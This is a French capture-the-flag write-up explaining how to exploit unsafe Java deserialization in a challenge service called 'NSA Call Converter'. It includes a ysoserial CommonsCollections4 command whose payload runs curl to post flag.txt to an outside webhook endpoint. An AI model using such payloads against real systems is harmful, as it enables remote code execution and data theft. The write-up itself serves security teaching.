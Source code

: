 ```yaml
---
layout: default
type: writeup
title: NSA Call Converter
category: exploit
point: 150
files: ["calls.nsadb"]
---
```


<!-- {% raw %} -->

<div class="info">
<p class="title">
	<span class="name">titre:</span>
	NSA Call Converter
</p>
<p class="category">
	<span class="name">categorie:</span>
	Exploit
</p>
<p class="difficulty">
	<span class="name">difficulté:</span>
	Moyen
</p>
<p class="points">
	<span class="name">points:</span>
	150
</p>
<p class="description">
	<span class="name">description:</span>
Vous avez accès à un service interne de la NSA permettant de convertir des extraits de métadonnées téléphoniques en CSV, un format plus exploitable pour les analystes. Un extrait d'appels est fourni ci-dessous.</br>
Malheureusement, la désérialisation n'est pas effectuée correctement.</br>
Vous devez prendre le contrôle du serveur pour obtenir le fichier flag.txt dans le dossier de l'application.
</p> 
<p class="connection">
	<span class="name">connection:</span>
	<a href="http://nsacallconverter7.chall.malicecyber.com/">http://nsacallconverter7.chall.malicecyber.com/</a>
</p> 
</div>

## Solution

La première étape est de savoir ce qu'on a entre les mains, on va donc faire un hexdump du fichier **`calls.nsadb`** (ici avec **[CyberChef](https://gchq.github.io/CyberChef/)**).

![Hexdump du fichier calls.nsadb](images/hexdump.png)

On voit qu'il contient des mots relatifs à Java, comme **`org.apache.commons.collections4.list.GrowthList`**.

Cherchons un peu si c'est un type de fichier connu, soit avec la commande **`file`** sur Linux, soit on regarde les premiers octets et on cherche sur **[une liste de signatures de fichier](https://en.wikipedia.org/wiki/List_of_file_signatures)**.

![Signature du fichier](images/magic_bytes.png)

On sait maintenant qu'il s'agit de données Java sérialisées. En cherchant un peut sur internet les vulnérabilités, on tombe sur pas mal d'articles comme **[HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization#exploit)** qui parle de l'outil **[ysoserial](https://github.com/frohoff/ysoserial)**.

Comme on sait que **`flag.txt`** est dans le même dossier, utilisons donc cet outil pour POST le fichier sur un endpoint.

Direction **[Webhook Site](https://webhook.site)** pour créer rapidement un endpoint (*[RequestBin](https://public.requestbin.com) fonctionne aussi*). Notre endpoint ici est le suivant : **`https://webhook.site/bb26bcef-9717-4d73-9059-a489f8ec1270`**.

Maintenant on va créer notre payload avec **[ysoserial](https://github.com/frohoff/ysoserial)**. On a vu que **`org.apache.commons.collections4`** était utilisé, ça tombe bien, c'est l'un des points d'entrée que l'outil peut exploiter. La commande pour le créer est :

```
java -jar ysoserial-all.jar CommonsCollections4 "curl -d @flag.txt https://webhook.site/bb26bcef-9717-4d73-9059-a489f8ec1270" > exploit.nsadb
```

Ensuite il nous suffit d'aller sur le site et de tenter de le convertir pour récupérer l'erreur suivante :

![Erreur obtenue lors de l'upload](images/error.png)

Si l'on regarde notre endpoint, on a bien reçu une requête POST contenant le flag :

![Requête reçue sur l'endpoint](images/flag.png)

<span class="flag">`FLAG : MALICE{NeverDeserializeUntrustedContent}`</span>

<!-- {% endraw %} -->
